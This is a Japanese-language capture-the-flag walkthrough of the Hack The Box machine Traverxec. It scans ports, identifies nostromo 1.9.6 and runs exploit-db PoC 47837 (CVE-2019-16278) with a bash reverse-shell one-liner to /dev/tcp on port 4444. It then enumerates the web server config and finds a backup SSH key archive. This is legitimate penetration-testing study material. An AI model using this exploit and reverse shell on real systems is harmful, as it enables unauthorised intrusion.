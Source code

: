 https://app.hackthebox.com/machines/Traverxec

## STEP 1
```sh
└─$ rustscan -a 10.129.182.22 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.182.22:22
Open 10.129.182.22:80
10.129.182.22 -> [22,80]
```


## STEP 2
80番にアクセス
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Traverxec_01.png">  
ヘッダを確認すると、nostromo 1.9.6 だと判明
```sh
└─$ curl -I http://10.129.182.22
HTTP/1.1 200 OK
Date: Mon, 21 Jul 2025 13:32:12 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```
nostromo 1.9.6 は、cve-2019-16278 が存在しrceの脆弱性がある  
PoC を確認
```sh
└─$ searchsploit -m 47837
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
    Codes: CVE-2019-16278
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/47837.py
```
PoC実行、python3.13では、エラーがでた  
`soc.send(payload)`を`soc.send(payload.encode('utf-8'))`に変更すると実行できた
```sh
└─$ python3.13 47837.py                                                                                
/home/kali/47837.py:20: SyntaxWarning: invalid escape sequence '\ '
  _____  _______    ______   _____\    \


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/





Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>

└─$ python3.13 47837.py 10.129.182.22 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"'
/home/kali/47837.py:20: SyntaxWarning: invalid escape sequence '\ '
  _____  _______    ______   _____\    \


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




Traceback (most recent call last):
  File "/home/kali/47837.py", line 68, in <module>
    cve(target, port, cmd)
    ~~~^^^^^^^^^^^^^^^^^^^
  File "/home/kali/47837.py", line 54, in cve
    soc.send(payload)
    ~~~~~~~~^^^^^^^^^
TypeError: a bytes-like object is required, not 'str'

└─$ python3.13 47837.py 10.129.182.22 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"'
/home/kali/47837.py:20: SyntaxWarning: invalid escape sequence '\ '
  _____  _______    ______   _____\    \


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/

```
リバースシェル取得！がユーザフラグすら権限がたりない状況
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.182.22] 44468
bash: cannot set terminal process group (761): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@traverxec:/usr/bin$ ls -l /home
ls -l /home
total 4
drwx--x--x 5 david david 4096 Oct 25  2019 david

www-data@traverxec:/usr/bin$ cat /home/david/user.txt
cat /home/david/user.txt
cat: /home/david/user.txt: Permission denied
```


## STEP 3
webの設定コンフィグっぽいものを発見  
[マニュアル](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD#HOMEDIRS)を参照  
ユーザのホームディレクトリをhttp経由で確認するために、homedirsオプションで`/home`を指定  
しかしユーザのホームディレクトリを全公開しないように、homedirs_publicオプションでサブディレクトリ`public_www`だけにアクセスを制限しているっぽい  
```sh
www-data@traverxec:/usr/bin$ cat /var/nostromo/conf/nhttpd.conf
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
以上のことから、`/home/david/public_www`を確認  
`index.html`などを発見
```sh
www-data@traverxec:/usr/bin$ cd /home/david/public_www
cd /home/david/public_www

www-data@traverxec:/home/david/public_www$ ls -l
ls -l
total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```
[マニュアル](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD#HOMEDIRS)から、ユーザホームディレクトリにアクセスする場合は、「/~`ユーザ名`」と判明  
実際に無事アクセスできた
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Traverxec_02.png">  
さらにssh鍵を発見
```sh
www-data@traverxec:/home/david/public_www$ ls -l protected-file-area
ls -l protected-file-area
total 4
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

